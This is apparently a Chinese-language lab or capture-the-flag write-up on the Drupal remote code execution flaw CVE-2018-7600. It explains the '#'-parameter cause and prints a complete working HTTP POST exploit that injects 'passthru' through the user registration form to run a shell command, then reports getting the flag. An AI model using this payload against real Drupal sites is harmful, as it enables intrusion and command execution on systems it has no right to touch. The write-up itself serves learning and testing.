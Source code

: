 ### 漏洞描述
Drupal 在 3 月 28 日爆出一个远程代码执行漏洞，CVE 编号 CVE-2018-7600，通过对比官方的补丁，可以得知是请求中存在 # 开头的参数。Drupal Render API 对于 # 有特殊处理。

### writeup 

访问靶机地址

![](./20200509093232.png)

直接构造poc代码

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 靶机地址
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://靶机地址/user/register
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------99533888113153068481322586663
Content-Length: 626
Connection: close

-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#post_render][]"

passthru
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#type]"

markup
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#markup]"

ls -l /tmp
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="form_id"

user_register_form
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="_drupal_ajax"
```
放到burp中利用

![](./20200508161436.png)

成功获取到flag文件
